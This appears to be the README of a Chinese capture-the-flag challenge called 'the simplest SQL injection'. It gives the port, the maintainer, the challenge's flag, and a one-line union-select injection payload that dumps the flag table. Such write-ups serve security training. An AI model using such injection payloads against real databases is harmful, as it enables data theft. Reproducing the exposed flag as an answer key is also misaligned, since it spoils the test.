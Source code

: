 # 题目：最最最简单的sql注入

### 题目描述：无

### 题目难度： 🌟

### 维护：SiJiDo

### KEY: `NSCTF{f6c631f294a64dbb1e963f427fdc725d}`

### 配置信息： 

1. 开放端口： `10002`

### 解题过程：

1. 联合注入即可

   `-1' union select (select group_concat(flag) from flag),2,3,4 #`